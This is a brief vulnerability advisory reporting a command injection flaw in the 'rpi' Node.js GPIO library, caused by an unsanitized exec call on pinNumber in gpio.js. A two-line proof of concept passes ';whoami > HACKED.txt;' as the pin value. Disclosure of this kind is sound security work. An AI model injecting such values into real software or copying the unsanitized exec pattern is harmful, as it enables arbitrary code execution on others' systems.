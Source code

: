 # Description
```rpi``` is a Node.js library to use the Raspberry Pi GPIOs.
There is a ```command injection``` vulnerability in this package. There is an unsanitized ```exec``` in ```gpio.js```. The ```pinNumber``` variable passed to exec is unsanitized thus leading to ```code execution```.

# Proof-of-Concept
```
var RPI = require('rpi');
var pin = new RPI.GPIO(';whoami > HACKED.txt;','123');
```
